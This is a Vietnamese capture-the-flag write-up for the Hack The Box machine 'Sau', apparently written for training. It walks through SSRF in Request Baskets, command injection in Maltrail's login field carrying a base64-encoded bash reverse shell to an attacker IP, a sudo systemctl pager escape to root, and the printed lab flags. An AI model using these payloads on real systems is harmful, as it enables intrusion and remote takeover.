





# Thông tin 


> [!NOTE]
> Mức độ: Dễ 
> Url: https://app.hackthebox.com/machines/Sau
> Nền tảng: Linux 
> Mô tả: `Sau` là một máy Linux có độ khó Dễ, có tính năng `Request Baskets` phiên bản dễ bị tấn công giả mạo yêu cầu phía máy chủ (SSRF) thông qua `[CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)`. Tận dụng lỗ hổng bảo mật để truy cập vào một `Maltrail` một phiên bản dễ bị tấn công Unauthenticated OS Command Injection, cho phép chúng ta có được một shell đảo ngược trên máy `puma`. A `sudo` Sau đó, cấu hình sai được khai thác để đạt được một `root` vỏ bọc.

# Recon

## Port scan 

```bash
nmap -sSVC -Pn 10.129.229.26
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-16 07:24 -0400
Nmap scan report for 10.129.229.26
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     http    Golang net/http server
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 16 Oct 2026 11:23:40 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 16 Oct 2026 11:23:24 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 16 Oct 2026 11:23:24 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
| http-title: Request Baskets
|_Requested resource was /web
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.99%I=7%D=10/16%Time=6AD20971%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2016\x20Oct\x2
SF:02026\x2011:23:24\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/
SF:web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x20
SF:200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2016\x20Oct\x2
SF:02026\x2011:23:24\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-C
SF:ontent-Type-Options:\x20nosniff\r\nDate:\x20Fri,\x2016\x20Oct\x202026\x
SF:2011:23:40\x20GMT\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20
SF:name;\x20the\x20name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\
SF:\-_\\\.\]{1,250}\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20c
SF:lose\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCo
SF:nnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Socks5,67,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=u
SF:tf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(OfficeSca
SF:n,A3,"HTTP/1\.1\x20400\x20Bad\x20Request:\x20missing\x20required\x20Hos
SF:t\x20header\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnect
SF:ion:\x20close\r\n\r\n400\x20Bad\x20Request:\x20missing\x20required\x20H
SF:ost\x20header");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.38 seconds
```

> Kết quả phát hiện 3 cổng trong đó có cổng 80 bị lọc có thể dịch vụ chạy nội bộ 


| Port  | Service | Version                         |
| ----- | ------- | ------------------------------- |
| 22    | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 |
| 80    | http    |                                 |
| 55555 | http    | Golang net/http server          |

## Web service 

> Truy cập web trên cổng 55555 phát hiện dịch vụ request-baskets 
> Request Baskets là một dịch vụ web dùng để thu thập, lưu trữ và xem các HTTP request gửi đến một endpoint. Đây là công cụ phục vụ kiểm thử API, debug webhook và phân tích lưu lượng HTTP, không phải dịch vụ hệ thống mặc định của Linux. Phần mềm mã nguồn mở này được viết bằng Go.



> Tạo 

- Tạo basket 


- Nếu gửi request theo end point mới tạo sẽ có log được tạo ra 
```
curl http://10.129.229.26:55555/h451zeb
```



# Exploit

> request-baskets 1.2.1 tồn tại lỗ hổng SSRF qua chức năng thiết lập proxy 
> Khi đó các yêu cầu đến endpoint sẽ gửi đến endpoint proxy có thể kiểm tra bằng cách thiết lập máy chủ trên máy tấn công và gửi request 
> https://notes.sjtu.edu.cn/s/MUUhEymt7#

> Khai thác lỗ hổng SSRF để đọc nội dung web chạy cục bộ trên cổng 80 

- Thiết lập proxy và chức năng chờ response
```
http://127.0.0.1:80
```

- Sẽ truy cập được trang cục bộ phát hiện dịch vụ Maltrail phiên bản 0.54


> Truy cập trang đăng nhập của dịch vụ Maltrail thiết lập proxy đến trang login có thông báo lỗi 

```
http://127.0.0.1:80/login
```



> Phiên bản này của Maltrail  tồn tại lỗ hổng Command Injection qua dữ liệu đăng nhập 
> Dùng nó để tạo 1 reverse shell 
> Nếu gửi dạng mã plain sẽ không thành công 
> Nếu mã hóa bằng base64 mà vẫn chứa kí tự '+' cũng không thành công có thể server hiểu thành dấu cách 
> Nếu tạo 2 khoảng trắng liền nhau để loại bỏ '+' sẽ thành công tạo reverse shell 

```bash
└─$ curl http://10.129.229.26:55555/h451zeb --data 'username=;`bash -i >& /dev/tcp/10.10.15.211/4444 0>&1`'
Login failed            

└─$ echo -n "bash -i >& /dev/tcp/10.10.15.211/4444 0>&1" | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMTEvNDQ0NCAwPiYx                          
└─$ curl http://10.129.229.26:55555/h451zeb --data 'username=;`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMTEvNDQ0NCAwPiYx | base64 -d | bash`'
Login failed                             

└─$ echo -n "bash  -i >&  /dev/tcp/10.10.15.211/4444  0>&1" | base64 -w0                               
YmFzaCAgLWkgPiYgIC9kZXYvdGNwLzEwLjEwLjE1LjIxMS80NDQ0ICAwPiYx                
└─$ curl http://10.129.229.26:55555/h451zeb --data 'username=;`echo YmFzaCAgLWkgPiYgIC9kZXYvdGNwLzEwLjEwLjE1LjIxMS80NDQ0ICAwPiYx | base64 -d | bash`'

```

```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.229.26] 42806
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
puma@sau:/opt/maltrail$ whoami
whoami
puma
puma@sau:/opt/maltrail$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

> User Flag
```
4996af6f1c8ecee0f52d9518546cf682
```
# Privelege Escalation

> Liệt kê các lệnh puma có thể chạy với sudo 
> puma có thể chạy lệnh `/usr/bin/systemctl status trail.service` với mọi quyền mà không cần mật khẩu 

```bash
puma@sau:/home$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

> Thực thi lệnh thì service đang được chạy 
```bash
puma@sau:/home$ /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2026-10-16 11:21:14 UTC; 4h 25min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 879 (python3)
      Tasks: 10 (limit: 4662)
     Memory: 250.4M
     CGroup: /system.slice/trail.service
             ├─ 879 /usr/bin/python3 server.py
             ├─1779 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
             ├─1780 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
             ├─1783 bash
             ├─1784 bash -i
             ├─1793 python3 -c import pty; pty.spawn("/bin/bash")
             ├─1794 /bin/bash
             ├─1840 /usr/bin/systemctl status trail.service
             └─1841 pager

Oct 16 15:27:58 sau maltrail[1582]: Failed password for None from 127.0.0.1 por>
Oct 16 15:29:25 sau maltrail[1593]: Failed password for ; from 127.0.0.1 port 5>
Oct 16 15:29:37 sau maltrail[1598]: Failed password for ;uid=1001(puma) gid=100>
Oct 16 15:35:42 sau maltrail[1656]: Failed password for ; from 127.0.0.1 port 5>
```

> Kiểm tra file cấu hình và các file các lệnh được thực thi khi service chạy không thu được thông tin , puma không có quyền chỉnh sửa các file thực thi đó 
```
puma@sau:/home$ ls -al /etc/systemd/system/trail.service
-rwxr-xr-x 1 root root 461 Apr 15  2023 /etc/systemd/system/trail.service
puma@sau:/home$ cat /etc/systemd/system/trail.service
[Unit]
Description=Maltrail. Server of malicious traffic detection system
Documentation=https://github.com/stamparm/maltrail#readme
Documentation=https://github.com/stamparm/maltrail/wiki
Requires=network.target
Before=maltrail-sensor.service
After=network-online.target

[Service]
User=puma
Group=puma
WorkingDirectory=/opt/maltrail
ExecStart=/usr/bin/python3 server.py
Restart=on-failure
KillMode=mixed

[Install]
WantedBy=multi-user.target
puma@sau:/home$ cd /opt/maltrail/
puma@sau:/opt/maltrail$ ls -al
total 204
drwxr-xr-x 9 root root  4096 Jun 19  2023 .
drwxr-xr-x 3 root root  4096 Jun 19  2023 ..
-rw-rw-r-- 1 root root   179 Jan 31  2023 .gitattributes
-rw-rw-r-- 1 root root    13 Jan 31  2023 .gitignore
-rw-rw-r-- 1 root root  6418 Jan 31  2023 CHANGELOG
-rw-rw-r-- 1 root root   711 Jan 31  2023 CITATION.cff
-rw-rw-r-- 1 root root  1131 Jan 31  2023 LICENSE
-rw-rw-r-- 1 root root 42844 Jan 31  2023 README.md
drwxrwxr-x 2 root root  4096 Jun 19  2023 core
drwxrwxr-x 2 root root  4096 Jun 19  2023 docker
-rw-r--r-- 1 root root  7205 Apr 15  2023 h
drwxrwxr-x 5 root root  4096 Jun 19  2023 html
-rw-rw-r-- 1 root root   437 Jan 31  2023 maltrail-sensor.service
-rw-rw-r-- 1 root root   430 Jan 31  2023 maltrail-server.service
-rw-rw-r-- 1 root root  5810 Jan 31  2023 maltrail.conf
drwxrwxr-x 2 root root  4096 Jun 19  2023 misc
drwxrwxr-x 2 root root  4096 Jun 19  2023 plugins
-rw-rw-r-- 1 root root     9 Jan 31  2023 requirements.txt
-rwxrwxr-x 1 root root 63782 Jan 31  2023 sensor.py
-rwxrwxr-x 1 root root  5101 Jan 31  2023 server.py
drwxrwxr-x 4 root root  4096 Jun 19  2023 thirdparty
drwxrwxr-x 5 root root  4096 Jun 19  2023 trails
```

> Kiểm tra phiên bản systemctl phát hiện phiên bản 245 phiên bản này tồn tại lỗ hổng leo thang đặc quyền 
> https://packetstorm.news/files/id/174130
> https://nvd.nist.gov/vuln/detail/cve-2023-26604

```bash
puma@sau:/opt/maltrail$ systemctl --version
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybri
```

> Leo thang đặc quyền 
```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2026-10-16 11:21:14 UTC; 4h 31min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 879 (python3)
      Tasks: 11 (limit: 4662)
     Memory: 252.3M
     CGroup: /system.slice/trail.service
             ├─ 879 /usr/bin/python3 server.py
             ├─1779 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
             ├─1780 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed p>
             ├─1783 bash
             ├─1784 bash -i
             ├─1793 python3 -c import pty; pty.spawn("/bin/bash")
             ├─1794 /bin/bash
             ├─1856 sudo /usr/bin/systemctl status trail.service
             ├─1858 /usr/bin/systemctl status trail.service
             └─1859 pager

Oct 16 15:29:37 sau maltrail[1598]: Failed password for ;uid=1001(puma) gid=100>
Oct 16 15:35:42 sau maltrail[1656]: Failed password for ; from 127.0.0.1 port 5>
Oct 16 15:36:45 sau maltrail[1670]: Failed password for ; from 127.0.0.1 port 3>
!/bin/bash
root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# whoami
root
```

> Root Flag 

```bash
70707d14835f394300a107b87294b5db
```

# Kết luận 

> [!NOTE]
> - Phòng này khai thác lỗ hổng SSRF, Command Injection để xâm nhập máy mục tiêu 
> - Leo thang qua chương trình systemctl thuộc phiên bản cũ có lỗ hổng leo thang đặc quyền 
